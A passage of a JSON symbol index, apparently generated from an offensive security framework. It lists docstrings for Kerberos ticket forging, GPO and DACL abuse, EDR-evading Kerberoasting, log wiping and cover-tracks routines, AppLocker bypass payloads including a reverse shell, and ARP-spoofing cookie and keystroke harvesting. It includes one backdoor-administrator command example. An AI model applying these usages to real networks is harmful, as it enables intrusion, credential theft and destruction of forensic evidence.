``True`` when ``cs_class`` is flagged as a pending migration.\n\nArgs:\n    cs_class: A ``CommandSet`` subclass discovered by the registry.\n\nReturns:\n    ``True`` when the class declares ``__lazyown_pending__ = True``,\n    either directly or through inheritance from :class:`PendingCommandSet`.\n    ``False`` for active sets and for non-class inputs.", "kind": "function", "line": 52, "name": "is_pending", "signature": "def is_pending(cs_class)"}]}, {"doc": "Active Directory attack commands — Kerberos, tickets, delegation, DACL, GPO, kerberoasting.  Provides: kerberos_ticket         — Forge silver/golden/diamond/sapphire tickets delegation_enum         — Enumerate Kerberos delegation (unconstrained, constrained, RBCD) delegation_attack       — Compute and display delegation attack paths dacl_abuse              — Enumerate and exploit dangerous AD DACL/SACL entries gpo_abuse               — Enumerate and exploit Group Policy Objects kerberoast              — Advanced Kerberoasting with AES-only and targeted mode adcs_check              — Check for AD CS vulnerabilities (ESC1-ESC13)", "id": "cli/commands/active_directory.py", "kind": "module", "label": "active_directory.py", "language": "py", "sha256": "3c72bc6a55e12c9d", "symbol_count": 8, "symbols": [{"doc": "Kerberos, delegation, DACL, GPO, and Kerberoasting attacks.", "kind": "class", "line": 18, "name": "ActiveDirectoryCommandSet", "signature": "class ActiveDirectoryCommandSet(LazyOwnCommandSet)"}, {"doc": "Forge Kerberos tickets for persistence and lateral movement.\n\nUsage: kerberos_ticket <type> [options]\n\nTypes:\n    silver  — Forge a service ticket (needs service account hash)\n    golden  — Forge a TGT (needs krbtgt hash)\n    diamond — Golden ticket + enhanced PAC with admin group SIDs\n    sapphire — S4U2self-based ticket via RBCD\n\nSilver ticket options:\n    --spn <SPN> --domain <DOMAIN> --sid <DOMAIN_SID> --hash <NT_HASH> [--user <user>] [--rid <500>]\n\nGolden ticket options:\n    --domain <DOMAIN> --sid <DOMAIN_SID> --hash <KRBTGT_NT_HASH> [--user <user>] [--groups <513,512,520,518,519>]\n\nExamples:\n    kerberos_ticket silver --spn cifs/DC01.domain.local --domain domain.local --sid S-1-5-21-... --hash NT_HASH\n    kerberos_ticket golden --domain domain.local --sid S-1-5-21-... --hash KRBTGT_HASH\n    kerberos_ticket diamond --domain domain.local --sid S-1-5-21-... --hash KRBTGT_HASH --groups 512,519", "kind": "method", "line": 24, "name": "do_kerberos_ticket", "signature": "def do_kerberos_ticket(self, line)"}, {"doc": "Enumerate Kerberos delegation configurations.\n\nUsage: delegation_enum [--domain DOMAIN] [--input <bloodhound_json_file|ldap_output>]\n\nDiscovers:\n    - Unconstrained delegation (TRUSTED_FOR_DELEGATION)\n    - Constrained delegation (msDS-AllowedToDelegateTo)\n    - Resource-Based Constrained Delegation (msDS-AllowedToActOnBehalfOfOtherIdentity)", "kind": "method", "line": 139, "name": "do_delegation_enum", "signature": "def do_delegation_enum(self, line)"}, {"doc": "Display computed delegation attack paths with exploitation commands.\n\nUsage: delegation_attack [--domain DOMAIN]", "kind": "method", "line": 175, "name": "do_delegation_attack", "signature": "def do_delegation_attack(self, line)"}, {"doc": "Enumerate and exploit dangerous AD DACL/SACL entries.\n\nUsage: dacl_abuse [--domain DOMAIN] [--plan <technique>]\n\nDetects: GenericAll, GenericWrite, WriteDacl, WriteOwner, ForceChangePassword,\n         AddMember, DCSync, AddKeyCredentialLink, and more.\n\nGenerates exploitation commands for each abuse primitive found.", "kind": "method", "line": 199, "name": "do_dacl_abuse", "signature": "def do_dacl_abuse(self, line)"}, {"doc": "Enumerate and exploit Group Policy Objects.\n\nUsage: gpo_abuse [--domain DOMAIN] [--command \"cmd /c ...\"] [--user ATTACKER_USER]\n\nAbuse techniques: ScheduledTask, StartupScript, LogonScript,\n                  LocalAdmin addition, WMI Filter, Registry preference, Service install.\n\nExamples:\n    gpo_abuse --command \"net user backdoor P@ssw0rd! /add && net localgroup Administrators backdoor /add\"", "kind": "method", "line": 233, "name": "do_gpo_abuse", "signature": "def do_gpo_abuse(self, line)"}, {"doc": "Advanced Kerberoasting — AES-only mode, targeted SPN enumeration.\n\nUsage: kerberoast [--mode aes|rc4|both] [--high-value] [--output hash_file]\n\nAES-only mode (--mode aes) avoids RC4-HMAC detection rules on EDR/SIEM.\n\nExamples:\n    kerberoast --mode aes --high-value\n    kerberoast --mode both --output sessions/kerberoast_hashes.txt", "kind": "method", "line": 277, "name": "do_kerberoast", "signature": "def do_kerberoast(self, line)"}, {"doc": "Check Active Directory Certificate Services for ESC1-ESC13 vulnerabilities.\n\nUsage: adcs_esc [--domain DOMAIN] [--dc-ip DC_IP]\n\nDetects vulnerable certificate templates and ESC attack paths (ESC1 through ESC13).", "kind": "method", "line": 324, "name": "do_adcs_esc", "signature": "def do_adcs_esc(self, line)"}]}, {"doc": "Artificial Intelligence command set.  Covers the ``do_ask``, ``do_groq``, ``do_ai_playbook`` and ``do_ai_toggle`` commands. ``ask`` answers through the configured ``llm_backend`` (any provider); ``groq`` pins the Groq backend explicitly. Both resolve models, keys, and budget through :mod:`modules.llm_factory` — no subprocess, no vendored CLI scripts, no shell.", "id": "cli/commands/ai.py", "kind": "module", "label": "ai.py", "language": "py", "sha256": "1b926973fdf86726", "symbol_count": 8, "symbols": [{"doc": "Pending phase module for the Artificial Intelligence commands.", "kind": "class", "line": 71, "name": "AiCommandSet", "signature": "class AiCommandSet(LazyOwnCommandSet)"}, {"doc": "Ask the AI a question with current session context pre-loaded.\n\nInjects rhost, lhost, phase, OS, latest scan summary, and recent\ncommands into the prompt so the AI can give targeted advice\nwithout the operator having to copy-paste context manually.\n\nAnswers through the configured ``llm_backend`` (any provider).\n\nUsage:\n    ``ask what are the best privesc paths for this Linux host?``\n    ``ask what services look exploitable on this target?``\n    ``ask how do I exploit SMB signing disabled?``\n    ``ask snapshot <question>`` answers from a frozen context\n    snapshot without touching session state.\n\nArgs:\n    line: Free-form question forwarded to the LLM.\n\nReturns:\n    None.", "kind": "method", "line": 78, "name": "do_ask", "signature": "def do_ask(self, line)"}, {"doc": "Generate a single-line command through the Groq backend.\n\nWhen the input line is empty the shell's current prompt string is\nforwarded as the goal. The backend, model, and key resolve through\n:mod:`modules.llm_factory` — no subprocess, no shell.\n\nArgs:\n    line: Goal text. Empty falls back to ``self.prompt``.\n\nReturns:\n    None.", "kind": "method", "line": 166, "name": "do_groq", "signature": "def do_groq(self, line)"}, {"doc": "Prove the LLM failover pool order with one live prompt.\n\nUsage:\n    poolcheck\n    poolcheck \"Reply with exactly: READY\"\n\nSends one prompt through ``modules.llm_pool`` (groq rank 10, then\nollama rank 1, shared health registry) and prints which member\nanswered. Kill groq (bad key, offline) and rerun to watch the\nfailover happen instead of taking it on faith.\n\nArgs:\n    line: Optional prompt. Defaults to a one-word probe.\n\nReturns:\n    None.", "kind": "method", "line": 197, "name": "do_poolcheck", "signature": "def do_poolcheck(self, line)"}, {"doc": "Generate an offensive playbook from Nmap CSV + KB + Ollama.\n\nCombines a parsed Nmap CSV export, the local technique knowledge\nbase, and an Ollama LLM completion to render a YAML playbook\nunder ``playbooks/``.\n\nUsage:\n    ``ai_playbook <csv_file> [playbook_name] [model_name]``\n\nArgs:\n    line: Whitespace-separated positional arguments. All are\n        optional; missing values fall back to\n        ``sessions/vulns_<rhost>.csv``, ``AutoGeneratedPlaybook``\n        and the ``llm_model_ollama`` payload value.\n\nReturns:\n    None.", "kind": "method", "line": 254, "name": "do_ai_playbook", "signature": "def do_ai_playbook(self, line)"}, {"doc": "Toggle the in-process AI assistant on or off.\n\nFlips ``use_ai`` on the shell so subsequent prompts either consult\nthe configured LLM backend or pass through untouched.\n\nArgs:\n    _arg: Unused command-line argument.\n\nReturns:\n    None.", "kind": "method", "line": 361, "name": "do_ai_toggle", "signature": "def do_ai_toggle(self, _arg)"}, {"doc": "Show the LLM daily cost budget, per call token cap, and current spend.\n\nThe framework wraps every LLM call with a budget proxy that\nenforces a daily cost cap and a per call token cap. The cap\nvalues live in ``payload.json`` and the proxy persists the\nspend to ``sessions/llm_budget.json``.\n\nSubcommands:\n\n- ``llm_budget``            Show the structured status block.\n- ``llm_budget json``       Emit the status as a JSON object.\n- ``llm_budget reset``      Clear the ledger for the current day.\n\nArgs:\n    line: Optional subcommand string.\n\nReturns:\n    None. Output is written to stdout through ``print_msg`` so\n    the LazyOwn history capture picks the result up.", "kind": "method", "line": 378, "name": "do_llm_budget", "signature": "def do_llm_budget(self, line)"}, {"kind": "function", "line": 220, "name": "_serve", "signature": "def _serve(member_id, backend_name, text)"}]}, {"doc": "Anti-Forensics command set.  Covers post-exploitation cleanup: log wiping, timeline scrubbing, secure file deletion, free space wiping, AD event-log clearing, and an all-in-one cover-tracks operation.", "id": "cli/commands/anti_forensics.py", "kind": "module", "label": "anti_forensics.py", "language": "py", "sha256": "32cd6f06ee8ca6af", "symbol_count": 7, "symbols": [{"doc": "Anti-forensics operations for post-exploitation cleanup.", "kind": "class", "line": 32, "name": "AntiForensicsCommandSet", "signature": "class AntiForensicsCommandSet(LazyOwnCommandSet)"}, {"doc": "Clear system log files on the remote target.\n\nUsage: wipe_logs [--target <ip>] [--user <username>] [--all] [--force]\n\nWithout --target, prepares local commands for manual execution.\nWith --target, executes cleanup via SSH.", "kind": "method", "line": 39, "name": "do_wipe_logs", "signature": "def do_wipe_logs(self, line)"}, {"doc": "Scrub file timestamps and shell history on the target.\n\nUsage: wipe_timeline [--target <ip>] [--user <username>] [--path <dir>] [--force]\n\nTouches all files under --path with a fixed timestamp to destroy\nforensic timeline analysis. Defaults to common writable paths.", "kind": "method", "line": 104, "name": "do_wipe_timeline", "signature": "def do_wipe_timeline(self, line)"}, {"doc": "Securely delete files by overwriting before removal.\n\nUsage: shred <file_path> [--passes <n>] [--target <ip>] [--user <username>] [--force]\n\nOverwrites the file N times with random data then deletes it.\nDefaults to 7 passes (DoD 5220.22-M standard).", "kind": "method", "line": 151, "name": "do_shred", "signature": "def do_shred(self, line)"}, {"doc": "Wipe free disk space to prevent forensic file recovery.\n\nUsage: wipe_free [--target <ip>] [--user <username>] [--path <mount_point>] [--force]\n\nFills free space with random data then removes the filler file.\nDefaults to /tmp if no path is specified on remote targets.", "kind": "method", "line": 206, "name": "do_wipe_free", "signature": "def do_wipe_free(self, line)"}, {"doc": "Clear Active Directory event logs and cached Kerberos tickets.\n\nUsage: clean_ad [--target <dc_ip>] [--user <domain\\user>] [--password <pass>] [--force]\n\nPurges Security, System, and Application event logs on the DC.\nClears Kerberos ticket cache on the attacker machine.", "kind": "method", "line": 243, "name": "do_clean_ad", "signature": "def do_clean_ad(self, line)"}, {"doc": "Run all anti-forensics operations in sequence.\n\nUsage: cover_tracks [--target <ip>] [--user <username>] [--password <pass>] [--force]\n\nExecutes: wipe_logs -> wipe_timeline -> clean_ad -> wipe_free.", "kind": "method", "line": 304, "name": "do_cover_tracks", "signature": "def do_cover_tracks(self, line)"}]}, {"doc": "AppLocker and WDAC bypass command set.  Generates payloads and bypass scripts for 7 signed Microsoft binaries that are commonly allowed through AppLocker and Windows Defender Application Control policies.", "id": "cli/commands/applocker_bypass.py", "kind": "module", "label": "applocker_bypass.py", "language": "py", "sha256": "17b1f8a6b6cee99a", "symbol_count": 9, "symbols": [{"doc": "AppLocker and WDAC bypass payload generators.", "kind": "class", "line": 99, "name": "AppLockerBypassCommandSet", "signature": "class AppLockerBypassCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 105, "name": "_get_lh", "signature": "def _get_lh(self)"}, {"doc": "Generate an InstallUtil.exe AppLocker bypass payload.\n\nUsage: applocker_installutil\n\nCompiles a .NET assembly that downloads and executes a PowerShell\npayload, then provides the InstallUtil.exe command for execution.\nThe assembly uses the required Installer class pattern.\n\nMITRE: T1218.004", "kind": "method", "line": 109, "name": "do_applocker_installutil", "signature": "def do_applocker_installutil(self, line)"}, {"doc": "Generate an MSBuild.exe AppLocker bypass payload.\n\nUsage: applocker_msbuild\n\nCreates a .xml MSBuild project file that executes PowerShell.\nMSBuild.exe is signed and commonly allowed through WDAC policies.\n\nMITRE: T1127.001", "kind": "method", "line": 146, "name": "do_applocker_msbuild", "signature": "def do_applocker_msbuild(self, line)"}, {"doc": "Generate a Regsvcs.exe/Regasm.exe AppLocker bypass payload.\n\nUsage: applocker_regsvcs\n\nCompiles a .NET assembly inheriting ServicedComponent and\ngenerates the Regsvcs.exe command to execute the payload.\n\nMITRE: T1218.009", "kind": "method", "line": 173, "name": "do_applocker_regsvcs", "signature": "def do_applocker_regsvcs(self, line)"}, {"doc": "Generate a csc.exe compile-and-execute AppLocker bypass.\n\nUsage: applocker_csc\n\nCreates a pure C# reverse shell source file that can be compiled\nwith csc.exe (a signed Microsoft binary commonly allowed).\nNo external dependencies except .NET Framework.\n\nMITRE: T1027.004", "kind": "method", "line": 209, "name": "do_applocker_csc", "signature": "def do_applocker_csc(self, line)"}, {"doc": "Generate an mshta.exe AppLocker bypass payload.\n\nUsage: applocker_mshta\n\nCreates an HTA file that executes PowerShell via mshta.exe\n(a signed Microsoft binary). Can be served via HTTP or run\nfrom local disk.\n\nMITRE: T1218.005", "kind": "method", "line": 240, "name": "do_applocker_mshta", "signature": "def do_applocker_mshta(self, line)"}, {"doc": "Generate a rundll32.exe AppLocker bypass via SCT scriptlet.\n\nUsage: applocker_rundll32\n\nCreates a .sct scriptlet file that executes JavaScript via\nrundll32.exe (a signed Microsoft binary). Can be served via\nHTTP or run from local disk.\n\nMITRE: T1218.011", "kind": "method", "line": 269, "name": "do_applocker_rundll32", "signature": "def do_applocker_rundll32(self, line)"}, {"doc": "Generate a PresentationHost.exe AppLocker bypass reference.\n\nUsage: applocker_presentation\n\nProvides commands to generate and deploy an XBAP payload.\nPresentationHost.exe is a signed WPF host that can execute\nXAML Browser Applications.\n\nMITRE: T1218", "kind": "method", "line": 298, "name": "do_applocker_presentation", "signature": "def do_applocker_presentation(self, line)"}]}, {"doc": "Audit-mode CommandSet: fuzzy finder, forms, status tail, transcript grep.  This module wires the SOLID primitives in :mod:`cli.cli_enhancements` to the running ``LazyOwnShell`` instance via cmd2's CommandSet auto-discovery.  Commands exposed ---------------- - ``fz [query]`` — fuzzy command finder backed by ``FuzzyCommandIndex``. - ``form <command>`` — interactive parameter form for any registered command. - ``status_tail [target]`` — parse the latest scan partial and print progress. - ``grep_log <pattern>`` — grep across the recent transcript. - ``reload_addons`` — trigger one polling sweep over ``lazyaddons/``+``plugins/``.  Design constraints ------------------ - Pull the parent shell instance via ``self._cmd``. Never import lazyown.py. - Lazily build heavy primitives (transcript store, hot reloader) so cmd2 startup does not regress. - Every public command method has a one-line docstring (cmd2 turns it into the help text shown by ``help <name>``).", "id": "cli/commands/audit.py", "kind": "module", "label": "audit.py", "language": "py", "sha256": "c18bce9044e5e3f0", "symbol_count": 13, "symbols": [{"doc": "Operator commands that improve audit ergonomics.\n\nPhase: ``audit`` (cross-cutting; not tied to a kill-chain stage).", "kind": "class", "line": 92, "name": "AuditCommandSet", "signature": "class AuditCommandSet(LazyOwnCommandSet)"}, {"kind": "function", "line": 304, "name": "_read_credentials", "signature": "def _read_credentials(shell)"}, {"kind": "method", "line": 101, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 110, "name": "_ensure_fuzzy", "signature": "def _ensure_fuzzy(self)"}, {"kind": "method", "line": 117, "name": "_ensure_completer", "signature": "def _ensure_completer(self)"}, {"kind": "method", "line": 138, "name": "_ensure_transcript", "signature": "def _ensure_transcript(self)"}, {"kind": "method", "line": 145, "name": "_ensure_hot_reloader", "signature": "def _ensure_hot_reloader(self)"}, {"doc": "Fuzzy command finder. Usage: fz [query]. Empty lists every command.", "kind": "method", "line": 160, "name": "do_fz", "signature": "def do_fz(self, statement)"}, {"doc": "Open an interactive form for a known command. Usage: form <command>.", "kind": "method", "line": 178, "name": "do_form", "signature": "def do_form(self, statement)"}, {"doc": "Print live progress from the latest sessions/scan_*.partial file.", "kind": "method", "line": 196, "name": "do_status_tail", "signature": "def do_status_tail(self, statement)"}, {"doc": "Grep recent command outputs. Usage: grep_log <pattern> [--cmd <name>].", "kind": "method", "line": 234, "name": "do_grep_log", "signature": "def do_grep_log(self, statement)"}, {"doc": "Re-scan lazyaddons/ and plugins/ for changes; reloads what's new.", "kind": "method", "line": 263, "name": "do_reload_addons", "signature": "def do_reload_addons(self, _statement)"}, {"doc": "Print payload-aware completion suggestions for a partial command.", "kind": "method", "line": 288, "name": "do_audit_complete_keys", "signature": "def do_audit_complete_keys(self, statement)"}]}, {"doc": "Automation command set — credential reuse, conditional hooks, operator profiles.  Provides CLI commands for managing the credential reuse engine, conditional hook rules, and multi-operator profiles.", "id": "cli/commands/automation.py", "kind": "module", "label": "automation.py", "language": "py", "sha256": "610c6bc73b1fd0d1", "symbol_count": 13, "symbols": [{"doc": "Automation & operator workflow commands.", "kind": "class", "line": 17, "name": "AutomationCommandSet", "signature": "class AutomationCommandSet(LazyOwnCommandSet)"}, {"doc": "Analyze captured credentials and suggest spray targets.\n\nUsage: cred_reuse [limit=N]", "kind": "method", "line": 24, "name": "do_cred_reuse", "signature": "def do_cred_reuse(self, line)"}, {"doc": "Mark a credential as failed against a host.\n\nUsage: cred_mark_failed <user> <password> <host>", "kind": "method", "line": 57, "name": "do_cred_mark_failed", "signature": "def do_cred_mark_failed(self, line)"}, {"doc": "List all conditional hook rules.\n\nUsage: hooks_list", "kind": "method", "line": 78, "name": "do_hooks_list", "signature": "def do_hooks_list(self, line)"}, {"doc": "Enable or disable a hook rule.\n\nUsage: hooks_enable <rule_name> [on|off]", "kind": "method", "line": 101, "name": "do_hooks_enable", "signature": "def do_hooks_enable(self, line)"}, {"doc": "Add a new conditional hook rule (JSON string).\n\nUsage: hooks_add '{\"name\":\"my-rule\",\"trigger\":{\"event\":\"beacon_connected\"},\"actions\":[{\"type\":\"run_command\",\"command\":\"whoami\"}]}'", "kind": "method", "line": 129, "name": "do_hooks_add", "signature": "def do_hooks_add(self, line)"}, {"doc": "Remove a hook rule by name.\n\nUsage: hooks_remove <rule_name>", "kind": "method", "line": 150, "name": "do_hooks_remove", "signature": "def do_hooks_remove(self, line)"}, {"doc": "Manually fire a hook event for testing.\n\nUsage: hooks_fire <event_name> [key=value ...]", "kind": "method", "line": 172, "name": "do_hooks_fire", "signature": "def do_hooks_fire(self, line)"}, {"doc": "List all operator profiles.\n\nUsage: operators", "kind": "method", "line": 202, "name": "do_operators", "signature": "def do_operators(self, line)"}, {"doc": "Create a new operator profile.\n\nUsage: operator_create <username> [role=operator] [lhost=IP] [lport=PORT]", "kind": "method", "line": 229, "name": "do_operator_create", "signature": "def do_operator_create(self, line)"}, {"doc": "Load effective config for an operator (team baseline + overrides).\n\nUsage: operator_load <username>", "kind": "method", "line": 264, "name": "do_operator_load", "signature": "def do_operator_load(self, line)"}, {"doc": "Delete an operator profile.\n\nUsage: operator_delete <username>", "kind": "method", "line": 292, "name": "do_operator_delete", "signature": "def do_operator_delete(self, line)"}, {"doc": "Conditional hooks management — list, enable, disable, add, remove rules.\n\nUsage: hooks [subcommand] [args]\nSubcommands: list, enable, disable, add, remove, fire", "kind": "method", "line": 314, "name": "do_hooks", "signature": "def do_hooks(self, line)"}]}, {"doc": "Browser-in-the-Middle CLI command set.  Automates ARP spoofing + transparent HTTP injection attacks to harvest browser sessions, cookies, OAuth tokens, form data, and keystrokes from target machines on the local network.", "id": "cli/commands/bitm.py", "kind": "module", "label": "bitm.py", "language": "py", "sha256": "b0b9cfac03fe88bf", "symbol_count": 8, "symbols": [{"doc": "Browser-in-the-Middle — ARP spoofing + JS injection credential harvester.", "kind": "class", "line": 24, "name": "BitMCommandSet", "signature": "class BitMCommandSet(LazyOwnCommandSet)"}, {"doc": "Browser-in-the-Middle attack manager.\n\nUsage:\n    bitm start <target_ip> [--gateway <ip>] [--interface <iface>] [--lport <port>] [--payloads <p1,p2,...>]\n    bitm stop\n    bitm status\n    bitm inject <payload_name>\n    bitm harvest\n    bitm cleanup\n\nStarts ARP spoofing (bettercap or arpspoof) against the target and\ntransparently injects JavaScript payloads into HTTP responses to\nharvest browser sessions.\n\nRequires: root/sudo, bettercap or dsniff (arpspoof).\n\nAvailable JS payloads:\n    cookie_harvest  — capture all document.cookie\n    form_sniff     — log every form submission\n    keylogger      — keystroke capture\n    screenshot     — html2canvas page screenshot (needs html2canvas on victim)\n    oauth_token_grab — steal OAuth tokens from localStorage/sessionStorage/cookies\n    beef_hook      — inject BeEF hook script\n\nExamples:\n    bitm start 192.168.1.105\n    bitm start 192.168.1.105 --payloads cookie_harvest,form_sniff,oauth_token_grab\n    bitm inject keylogger\n    bitm harvest\n    bitm stop", "kind": "method", "line": 31, "name": "do_bitm", "signature": "def do_bitm(self, line)"}, {"doc": "Parse arguments and launch the BitM attack.", "kind": "method", "line": 94, "name": "_bitm_start", "signature": "def _bitm_start(self, args)"}, {"doc": "Stop the BitM attack and display harvest summary.", "kind": "method", "line": 168, "name": "_bitm_stop", "signature": "def _bitm_stop(self)"}, {"doc": "Show active BitM attack details.", "kind": "method", "line": 191, "name": "_bitm_status", "signature": "def _bitm_status(self)"}, {"doc": "Inject an additional JS payload into an active BitM session.", "kind": "method", "line": 214, "name": "_bitm_inject", "signature": "def _bitm_inject(self, args)"}, {"doc": "Show harvested credential statistics.", "kind": "method", "line": 239, "name": "_bitm_harvest", "signature": "def _bitm_harvest(self)"}, {"doc": "Force-kill all BitM processes and remove state.", "kind": "method", "line": 257, "name": "_bitm_cleanup", "signature": "def _bitm_cleanup(self)"}]}, {"doc": "BOF marketplace CommandSet — Beacon Object File discovery, install, and execution.  Exposes ``modules/bof_registry`` through the LazyOwn CLI. Install compiles BOFs and stages them for beacon delivery. Run sends ``bof:URL`` commands to connected beacons via the C2.  Contracts: - bof_install: clones repo, compiles BOF .o, stages to sessions/temp_uploads/bofs/ - bof_run: generates bof:URL command, queues it on C2 for target beacon - bof_search, bof_info, bof_catalog, bof_list, bof_uninstall: as before", "id": "cli/commands/bof_registry.py", "kind": "module", "label": "bof_registry.py", "language": "py", "sha256": "14c446c82b9d1b71", "symbol_count": 12, "symbols": [{"doc": "BOF marketplace: search, install, info, list, run BOFs on beacons.", "kind": "class", "line": 29, "name": "BofMarketplaceCommandSet", "signature": "class BofMarketplaceCommandSet(LazyOwnCommandSet)"}, {"doc": "Create and return the BOF staging directory path.", "kind": "method", "line": 36, "name": "_ensure_staging_dir", "signature": "def _ensure_staging_dir()"}, {"doc": "Find a compiled .o file for a BOF across all known source trees.\n\nSearches:\n1. external/.exploit/beacon/bof/<bof_name>/  (Windows BOFs)\n2. external/.exploit/blacksandbeacon/build/bof/  (Linux BOFs)\n3. Beacon pre-compiled .o files at external/.exploit/beacon/bof/\n4. Any .o matching the name under external/.exploit/\n\nReturns the path to the .o, or None if not found.", "kind": "method", "line": 42, "name": "_find_bof_object", "signature": "def _find_bof_object(bof_name)"}, {"doc": "Find a compiled BOF object and stage it to sessions/temp_uploads/bofs/.\n\nReturns the destination path, or None if no compiled object found.", "kind": "method", "line": 71, "name": "_stage_bof", "signature": "def _stage_bof(self, bof_name)"}, {"doc": "Send a command to a connected beacon via the C2's issue_command endpoint.\n\nPosts to https://localhost:<c2_port>/issue_command with Basic Auth.\nHandles self-signed TLS certificates (C2 default).\n\nReturns True on success, False on failure.", "kind": "method", "line": 89, "name": "_queue_command_on_c2", "signature": "def _queue_command_on_c2(self, client_id, command)"}, {"doc": "Search the BOF catalog by keyword.\n\nUsage: bof_search [query]", "kind": "method", "line": 142, "name": "do_bof_search", "signature": "def do_bof_search(self, line)"}, {"doc": "Show detailed information about a BOF.\n\nUsage: bof_info <name>", "kind": "method", "line": 163, "name": "do_bof_info", "signature": "def do_bof_info(self, line)"}, {"doc": "Install and compile a BOF, staging it for beacon delivery.\n\nUsage: bof_install <name> [<name2> ...]\n\nClones the BOF source (if available), compiles the object file with\nx86_64-w64-mingw32-gcc, and copies the .o to sessions/temp_uploads/bofs/\nwhere the C2's /download/ endpoint can serve it to beacons.", "kind": "method", "line": 196, "name": "do_bof_install", "signature": "def do_bof_install(self, line)"}, {"doc": "Execute a BOF on a connected beacon.\n\nUsage: bof_run <bof_name> <beacon_client_id> [arg1,arg2,...]\n\nGenerates a bof:<c2_url>/download/bofs/<name> command and queues it\non the C2 for the specified beacon. The beacon's C client will download\nand execute the BOF via its internal COFFLoader.\n\nExamples:\n    bof_run ldap_enum win10_beacon\n    bof_run whoami linux_beacon_01", "kind": "method", "line": 226, "name": "do_bof_run", "signature": "def do_bof_run(self, line)"}, {"doc": "Uninstall a BOF and remove its staged file.\n\nUsage: bof_uninstall <name>", "kind": "method", "line": 267, "name": "do_bof_uninstall", "signature": "def do_bof_uninstall(self, line)"}, {"doc": "List all installed and staged BOFs.\n\nUsage: bof_list", "kind": "method", "line": 289, "name": "do_bof_list", "signature": "def do_bof_list(self, line)"}, {"doc": "List all BOFs available in the curated catalog.\n\nUsage: bof_catalog [--category <name>] [--platform windows|linux]", "kind": "method", "line": 321, "name": "do_bof_catalog", "signature": "def do_bof_catalog(self, line)"}]}, {"doc": "C2 profile CommandSet — extended malleable C2 profiles (TLS, DNS, SMB, WS).  Exposes ``modules/c2_profile_engine`` through the LazyOwn CLI.", "id": "cli/commands/c2_profile.py", "kind": "module", "label": "c2_profile.py", "language": "py", "sha256": "569af66687dbbee3", "symbol_count": 5, "symbols": [{"doc": "Extended C2 profile commands: TLS, DNS, SMB, WebSocket profiles.", "kind": "class", "line": 18, "name": "C2ProfileCommandSet", "signature": "class C2ProfileCommandSet(LazyOwnCommandSet)"}, {"doc": "List all available C2 transport profiles.\n\nUsage: c2_profiles [--json]", "kind": "method", "line": 25, "name": "do_c2_profiles", "signature": "def do_c2_profiles(self, line)"}, {"doc": "Display the current TLS C2 profile.\n\nUsage: c2_tls [--ja3]", "kind": "method", "line": 50, "name": "do_c2_tls", "signature": "def do_c2_tls(self, line)"}, {"doc": "Configure or display the DNS beacon profile.\n\nUsage: c2_dns [--domain <fqdn>] [--encoding base32|base64|hex]", "kind": "method", "line": 69, "name": "do_c2_dns", "signature": "def do_c2_dns(self, line)"}, {"doc": "Rotate to the next C2 transport profile in the rotation queue.\n\nUsage: c2_rotate", "kind": "method", "line": 90, "name": "do_c2_rotate", "signature": "def do_c2_rotate(self, line)"}]}, {"doc": "Caldera-style command set — operation lifecycle, TTP coverage, and planner.  Wires the new ``modules/operation``, ``modules/planner``, and ``modules/ttp_coverage`` modules into the LazyOwn shell.  Commands: op_list                  — list all operations op_create <name> <target> [apt] op_plan <id> [playbook]  — populate steps via playbook YAML or MITRE derive op_start <id>            — run all pending steps (no-op executor by default) op_pause <id>            — pause a running operation op_resume <id>           — resume a paused operation op_stop <id>             — stop a running operation op_status <id>           — show progress, coverage, fact count op_timeline <id>         — chronological event log op_report <id>           — full post-mortem  ttp_matrix               — coverage matrix across all operations ttp_rebuild              — re-walk operations dir to refresh ttp_show <technique_id>  — detail for one technique  plan <target>            — pick the next best technique to run plan_detail <target>     — full ranked list with scores", "id": "cli/commands/caldera.py", "kind": "module", "label": "caldera.py", "language": "py", "sha256": "b555f61508869b04", "symbol_count": 21, "symbols": [{"kind": "function", "line": 49, "name": "_resolve_manager", "signature": "def _resolve_manager()"}, {"kind": "function", "line": 53, "name": "_resolve_coverage", "signature": "def _resolve_coverage()"}, {"kind": "function", "line": 59, "name": "_resolve_planner", "signature": "def _resolve_planner(shell)"}, {"doc": "Operation lifecycle, TTP coverage, and fact-based planner.", "kind": "class", "line": 66, "name": "CalderaCommandSet", "signature": "class CalderaCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 72, "name": "_shell", "signature": "def _shell(self)"}, {"doc": "List all operations.\n\nUsage: op_list", "kind": "method", "line": 80, "name": "do_op_list", "signature": "def do_op_list(self, line)"}, {"doc": "Create a new planned operation.\n\nUsage: op_create <name> <target> [apt_name] [description]", "kind": "method", "line": 96, "name": "do_op_create", "signature": "def do_op_create(self, line)"}, {"doc": "Populate operation steps from a playbook YAML or via MITRE derive.\n\nUsage: op_plan <op_id> [path/to/playbook.yaml]", "kind": "method", "line": 114, "name": "do_op_plan", "signature": "def do_op_plan(self, line)"}, {"doc": "Start (or resume) an operation.\n\nUsage: op_start <op_id>\nSteps with empty commands run as no-ops. Wire the\n``executor(callable)`` from outside the shell to actually\nexecute payloads (see ``modules/operation.py``).", "kind": "method", "line": 141, "name": "do_op_start", "signature": "def do_op_start(self, line)"}, {"doc": "Pause a running operation.\n\nUsage: op_pause <op_id>", "kind": "method", "line": 166, "name": "do_op_pause", "signature": "def do_op_pause(self, line)"}, {"doc": "Resume a paused operation.\n\nUsage: op_resume <op_id>", "kind": "method", "line": 183, "name": "do_op_resume", "signature": "def do_op_resume(self, line)"}, {"doc": "Stop a running operation.\n\nUsage: op_stop <op_id>", "kind": "method", "line": 200, "name": "do_op_stop", "signature": "def do_op_stop(self, line)"}, {"doc": "Show the status of an operation.\n\nUsage: op_status <op_id>", "kind": "method", "line": 217, "name": "do_op_status", "signature": "def do_op_status(self, line)"}, {"doc": "Show the event timeline of an operation.\n\nUsage: op_timeline <op_id>", "kind": "method", "line": 249, "name": "do_op_timeline", "signature": "def do_op_timeline(self, line)"}, {"doc": "Generate a full report for an operation.\n\nUsage: op_report <op_id>", "kind": "method", "line": 272, "name": "do_op_report", "signature": "def do_op_report(self, line)"}, {"doc": "Render the MITRE ATT&CK coverage matrix across all operations.\n\nUsage: ttp_matrix", "kind": "method", "line": 290, "name": "do_ttp_matrix", "signature": "def do_ttp_matrix(self, line)"}, {"doc": "Re-walk the operations directory to refresh the coverage matrix.\n\nUsage: ttp_rebuild", "kind": "method", "line": 299, "name": "do_ttp_rebuild", "signature": "def do_ttp_rebuild(self, line)"}, {"doc": "Show details for a single MITRE technique.\n\nUsage: ttp_show <T1234.001>", "kind": "method", "line": 309, "name": 